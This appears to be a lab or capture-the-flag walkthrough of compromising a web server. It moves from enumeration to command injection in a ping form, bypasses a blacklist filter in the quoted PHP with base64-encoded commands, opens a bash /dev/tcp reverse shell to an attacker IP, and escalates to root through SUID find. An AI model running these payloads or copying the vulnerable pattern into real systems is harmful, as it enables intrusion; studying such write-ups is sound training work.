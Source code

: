 # Noname


## NMAP

PORT   STATE SERVICE
80/tcp open  http


## Port 80 Enumeration

- Enum with Nikto and Gobuster
- Nikto did not return anthing interesting
- Gobuster returned `admin` and `superadmin.php`
    - `admin` only has pictures no functionality
    - `superadmin.php` looks like we can ping any IP address 

![](2022-07-27-15-23-21.png)

![](2022-07-27-16-55-29.png)

- Checking burp request 

![](2022-07-27-15-42-17.png)

- Trying command injection with `sleep` command.
    - `;` `&` did not work but `|` worked

![](2022-07-27-15-43-36.png)

- As we can see from the bottom of the screenshot we were able to successfully inject the `sleep` command for five seconds.

- Tried some basic reverse shell. but did not work.
- tried `ls` and also did not return anything
- tried `cat superadmin.php`
```php
<?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>
```

- looks like there are certain blacklisted characters and commands. that's why we can't `ls` and `cat /etc/passwd`
- tried echoing a base64 encoded command then pipe to `base64 -d` then to `bash`
    - `echo 'Y2F0IC9ldGMvcGFzc3dk' | base64 -d | bash`

![](2022-07-27-16-26-33.png)

- and it worked.

- tried with a reverse shell `bash -i >& /dev/tcp/192.168.49.210/80 0>&1`
    - `|echo 'YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ5LjIxMC84MCAwPiYx' | base64 -d | bash` did not work for some reason, when `bash` is removed at the end it gives me the following result
           
        ![](2022-07-27-16-48-44.png)

        - looks like it is not printing the whole base64 encoded command.

    - tried double `base64` encoding and it worked `|echo+'WW1GemFDQXRhU0ErSmlBdlpHVjJMM1JqY0M4eE9USXVNVFk0TGpRNUxqSXhNQzg0TUNBd1BpWXg='|base64+-d|base64+-d|bash`

        ![](2022-07-27-16-46-09.png)

## Privesc


- we are `www-data` 
- checking `SUIDs` I noticed `/usr/bin/find` not sure if it is normal but I checked in [GTFObins](https://gtfobins.github.io/gtfobins/find/#suid) and looks like we can privesc using this command.

![](2022-07-27-16-52-16.png)

- `find . -exec /bin/sh \; -quit`

- and we are root.

![](2022-07-27-16-54-22.png)

